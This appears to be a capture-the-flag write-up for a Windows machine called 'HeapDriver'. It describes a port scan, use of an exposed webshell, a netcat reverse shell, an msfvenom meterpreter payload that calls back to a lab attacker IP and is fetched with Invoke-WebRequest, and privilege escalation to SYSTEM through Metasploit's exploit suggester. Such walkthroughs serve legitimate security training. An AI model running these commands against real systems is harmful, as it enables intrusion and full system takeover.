









HeapDriver
Port Scan

So we have a few open ports. Let's check out some of them.
Port 8000
Looks like we have a webshell on port 8000.
Getting a Reverse Shell
Set up netcat listener.
Get a reverse shell for windows from revshells.com
I like to get the base64 one.

Moving to Metasploit
Then I had to move to metasploit so that I have a better shell and can use it for privilege escalation.
I had to create a new exe reverse shell with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=5555 -f exe -o meterpreter.exe
Then, I had to get it on the system.
I started my python fileserver:
python3 -m http.server
And got it on the windows system
Invoke-WebRequest http://10.10.14.2:8000/shell64.exe -OutFile shell64.exe
Now, I have to set up my metasploit listener.


Privilege Escalation
Now, when I have my metasploit shell, I can use the metasploit exploit suggester.
I am going to use:
post/multi/recon/local_exploit_suggester

I did show options to see what I had to specify.

Looks like I have to specify a session.
To see my sessions there is a command: sessions

set session 7
run
The suggester did find a bunch of exploits that we can use.

I am going to use the one I highlighted.
I set up the session again and a new port.
And eventually got my new session and became nt authority\system
